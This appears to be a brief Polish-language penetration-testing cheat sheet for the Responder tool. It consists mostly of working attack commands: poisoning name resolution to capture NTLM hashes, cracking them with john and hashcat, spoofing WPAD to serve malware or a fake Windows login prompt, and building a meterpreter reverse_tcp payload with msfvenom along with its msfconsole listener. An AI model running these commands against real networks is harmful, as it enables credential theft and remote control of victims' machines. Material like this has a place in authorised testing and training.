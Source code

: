 ## RESPONDER
### Intro
Responder an LLMNR, NBT-NS and MDNS poisoner
### Preq
### Config
/usr/share/responder/Responder.conf
### Uses
Zatruwanie i zbieranie hashy NTLM  
``responder -I eth0``  
*(john hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2)*  
*(hashcat -m 5600 -a 0 hash1.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable)*
#### Podkladanie WPAD - fake www + malware
``responder -I eth0 -wFfbv``  
*Serve-Html = on*  
*Serve-Exe = on*  
##### Malware example  
``msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= $srcIP lport=$lPort -f exe > payload.exe`` 
`` msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $srcIP; set LPORT $lPort; run; exit -y;"``  
or
``use exploit/multi/handler``  
``set lhost _IP_``  
``set lport 4444``  
``set payload windows/x64/meterpreter/reverse_tcp``  
#### Podkladanie WPAD - fakowe windowsowe okno logowania do strony w przegladarce
``responder -I eth0 -r On -w On -wFb``  
*Serve-Html = off*  
*Serve-Exe = off*


